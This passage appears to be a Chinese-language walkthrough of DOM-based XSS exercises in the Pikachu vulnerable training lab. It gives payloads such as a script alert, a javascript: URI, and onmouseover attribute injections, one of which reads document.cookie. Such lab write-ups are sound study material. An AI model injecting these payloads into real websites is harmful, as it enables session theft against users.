 ```
<script>alert(1)</script>
```



### DOM型xss

先随便输入点东西看看反应`pikachu`

![image-20250112191336233](../../_media/image-20250112191336233.png)

清楚的看到了DOM发生了某种变化，那就直接交payload了

```
javascript:alert(1)
```

点击下面超链接就能够进行弹窗。



或者是

```
' onmouseover="alert(document.cookie)"
```

鼠标移过去就可以进行弹窗



```
1' onmouseover='alert(1)
```



### DOM型xss-x

还是一样随便输入点东西，然后发现生成了

`有些费尽心机想要忘记的事情,后来真的就忘掉了`

点击这个链接，发现又生成了一个新的`就让往事都随风,都随风吧`
